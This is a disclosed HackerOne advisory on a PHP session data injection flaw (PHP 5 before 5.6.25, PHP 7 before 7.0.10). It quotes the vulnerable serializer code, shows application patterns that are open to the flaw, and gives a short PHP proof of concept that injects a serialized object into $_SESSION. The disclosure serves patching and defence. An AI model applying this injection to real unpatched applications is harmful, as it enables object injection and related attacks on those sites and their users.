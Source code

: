 # PHP Session Data Injection Vulnerability

## Report Details
- **Report ID**: 159946
- **URL**: https://hackerone.com/reports/159946
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-17T06:39:09.183Z
- **Disclosed**: 2019-10-13T11:09:29.850Z

## Reporter
- **Username**: ryat
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
#PHP Session Data Injection Vulnerability

>bug report at: https://bugs.php.net/bug.php?id=72681
>fix commit at: https://github.com/php/php-src/commit/8763c6090d627d8bb0ee1d030c30e58f406be9ce

Affected Versions
------------
Affected is PHP 5 < 5.6.25<br />
Affected is PHP 7 < 7.0.10

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
```
PS_SERIALIZER_DECODE_FUNC(php) /* {{{ */
{
...
	while (p < endptr) {
		zval **tmp;
		q = p;
		while (*q != PS_DELIMITER) {
			if (++q >= endptr) goto break_outer_loop;
		}
		if (p[0] == PS_UNDEF_MARKER) {
			p++;
			has_value = 0;
		} else {
			has_value = 1;
		}

		namelen = q - p;
		name = estrndup(p, namelen);
		q++;

		if (zend_hash_find(&EG(symbol_table), name, namelen + 1, (void **) &tmp) == SUCCESS) {
			if ((Z_TYPE_PP(tmp) == IS_ARRAY && Z_ARRVAL_PP(tmp) == &EG(symbol_table)) || *tmp == PS(http_session_vars)) {
				goto skip;
			}
		}
		...
skip:
		efree(name);

		p = q;
	}
```

If the seesion name is not allowed, then the seesion `php` handler will ignore and skip the name, and continue to parsing. Therefore, if an attacker can control the session name, then he will be able to inject arbitrarily serialized data into the session. This means that such as the following code from real world&apps can be used to inject arbitrarily session data.

i)
```
$_SESSION = array_merge($_SESSION, $_POST);
```
ii)
```
if (isset($_GET['id']) && $_GET['result']) {
	$_SESSION[$_GET['id']] = $_GET['result'];
```

This also means allow user input into session deserialization. This will lead to vulnerabilities that are similar to input into unserialize(), for example use-after-free, object injection, and etc.
The similar issue also exist in the session `php_binary` handler.

Proof of Concept Exploit
------------
```
<?php

ini_set('session.serialize_handler', 'php');
session_start();
$_SESSION['_SESSION'] = 'ryat|O:8:"stdClass":0:{}';
session_write_close();
session_start();
var_dump($_SESSION);

?>
```


## Attachments
No attachments
